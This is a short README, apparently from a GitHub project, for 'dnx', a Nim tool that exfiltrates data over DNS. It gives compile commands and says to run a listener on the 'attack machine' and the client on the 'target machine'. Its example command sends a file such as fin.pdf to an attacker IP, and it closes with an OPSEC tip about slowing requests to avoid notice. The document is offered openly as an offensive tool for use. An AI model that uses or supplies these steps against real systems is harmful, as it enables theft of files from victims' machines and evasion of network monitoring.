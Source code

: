 # dnx
Data exfiltration over DNS

### Compile
Nim is cross compilation, compile according to your platform (e.g for Windows x64):
```
nim c -d:mingw -d:release --app:console --opt:size --cpu:amd64 .\dnx.nim
nim c -d:mingw -d:release --app:console --opt:size --cpu:amd64 .\dnxsvr.nim
```

### Instructions
Run dnxsvr on the attack machine:
```
.\dnxsvr.exe
```

Run dnx on the target machine:
```
.\dnx.exe
[!] Use: dnx.exe <IP> <File> <Time between requests in ms>
[!] e.g: dnx.exe 127.0.0.1 file.pdf 1000

.\dnx.exe 192.168.0.100 fin.pdf 500
```

OPSEC:
The longer the time between requests, the more opsec!

### Ref
[Offensive Nim - dns_exfiltrate.nim](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/dns_exfiltrate.nim)
